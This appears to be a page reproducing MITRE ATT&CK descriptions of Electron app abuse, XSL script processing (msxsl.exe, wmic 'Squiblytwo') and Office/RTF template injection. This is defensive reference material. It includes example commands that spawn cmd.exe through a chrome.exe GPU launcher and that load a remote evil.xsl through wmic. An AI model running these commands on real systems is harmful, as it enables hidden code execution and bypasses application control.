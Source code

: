 Description:

Adversaries may abuse components of the Electron framework to execute malicious code. The Electron framework hosts many common applications such as Signal, Slack, and Microsoft Teams. Originally developed by GitHub, Electron is a cross-platform desktop application development framework that employs web technologies like JavaScript, HTML, and CSS. The Chromium engine is used to display web content and Node.js runs the backend code. Due to the functional mechanics of Electron (such as allowing apps to run arbitrary commands), adversaries may also be able to perform malicious functions in the background potentially disguised as legitimate tools within the framework. For example, the abuse of `teams.exe` and `chrome.exe` may allow adversaries to execute malicious commands as child processes of the legitimate application (e.g., `chrome.exe --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c calc.exe`). Adversaries may also execute malicious content by planting malicious JavaScript within Electron applications.


### T1220 - XSL Script Processing

Description:

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to Trusted Developer Utilities Proxy Execution, the Microsoft common line transformation utility binary (msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension. Command-line examples: * msxsl.exe customers[.]xml script[.]xsl * msxsl.exe script[.]xsl script[.]xsl * msxsl.exe script[.]jpeg script[.]jpeg Another variation of this technique, dubbed “Squiblytwo”, involves using Windows Management Instrumentation to invoke JScript or VBScript within an XSL file. This technique can also execute local/remote scripts and, similar to its Regsvr32/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation provided they utilize the /FORMAT switch. Command-line examples: * Local File: wmic process list /FORMAT:evil[.]xsl * Remote File: wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”


### T1221 - Template Injection

Description:

Adversaries may create or modify references in user document templates to conceal malicious code or force authentication attempts. For example, Microsoft’s Office Open XML (OOXML) specification defines an XML-based format for Office documents (.docx, xlsx, .pptx) to replace older binary formats (.doc, .xls, .ppt). OOXML files are packed together ZIP archives compromised of various XML files, referred to as parts, containing properties that collectively define how a document is rendered. Properties within parts may reference shared public resources accessed via online URLs. For example, template properties may reference a file, serving as a pre-formatted document blueprint, that is fetched when the document is loaded. Adversaries may abuse these templates to initially conceal malicious code to be executed via user documents. Template references injected into a document may enable malicious payloads to be fetched and executed when the document is loaded. These documents can be delivered via other techniques such as Phishing and/or Taint Shared Content and may evade static detections since no typical indicators (VBA macro, script, etc.) are present until after the malicious payload is fetched. Examples have been seen in the wild where template injection was used to load malicious code containing an exploit. Adversaries may also modify the *\template control word within an .rtf file to similarly conceal then download malicious code. This legitimate control word value is intended to be a file destination of a template file resource that is retrieved and loaded when an .rtf file is opened. However, adversaries may alter the bytes of an existing .rtf file to insert a template control word field to include a URL resource of a malicious payload. This technique may also enable Forced Authentication by injecting a SMB/HTTPS (or other credential prompting) URL and triggering an authentication attempt.
